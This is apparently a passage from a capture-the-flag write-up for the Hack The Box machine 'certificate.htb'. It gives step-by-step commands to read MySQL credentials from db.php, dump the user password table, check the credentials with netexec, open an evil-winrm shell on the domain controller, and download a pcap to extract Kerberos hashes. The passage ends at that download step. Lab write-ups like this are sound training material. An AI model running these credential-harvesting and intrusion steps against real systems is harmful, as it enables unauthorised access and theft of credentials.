 ### Database Credential Retrieval

1.  **Locate `db.php`:**
    ```bash
    dir /
    # Find C:\xampp\htdocs\db.php
    ```
2.  **Retrieve Credentials:**
    ```bash
    type C:\xampp\htdocs\db.php
    ```
    This reveals MySQL credentials: **User: `sarah.b`**, **Password: `Blink182`**.

### MySQL Database Enumeration

Access the MySQL database using the discovered credentials.

```bash
C:\xampp\mysql\bin\mysql.exe -u sarah.b -p"Blink182" -e "SHOW DATABASES;"
C:\xampp\mysql\bin\mysql.exe -u sarah.b -p"Blink182" -D certificate -e "SHOW TABLES;"
C:\xampp\mysql\bin\mysql.exe -u sarah.b -p"Blink182" -D certificate -e "SELECT username, password FROM users;"
```

This confirms the `sarah.b` password and reveals other user credentials (which in this case were not directly useful for AD).

### Initial Active Directory User Access

Use the `sarah.b` credentials to gain access to Active Directory resources.

1.  **Test Credentials with `netexec`:**

    ```bash
    netexec smb dc1.certificate.htb -u sarah.b -p 'Blink182'
    ```

    This confirms valid credentials.

2.  **Gain WinRM Access:**

    ```bash
    evil-winrm -i 10.10.11.71 -u sarah.b -p 'Blink182'
    ```

    This provides an interactive PowerShell session on the Domain Controller.

### Analyzing `WSO1.pcap` for Kerberos Hashes

Inside the `sarah.b` WinRM session, a `WSO1` directory contains `description.txt` and `wso1.pcap`. The `description.txt` indicates a problem with reports, and `wso1.pcap` is attached for analysis.

1.  **Download `wso1.pcap`:**

    ```powershell
    download wso1.pcap
    ```
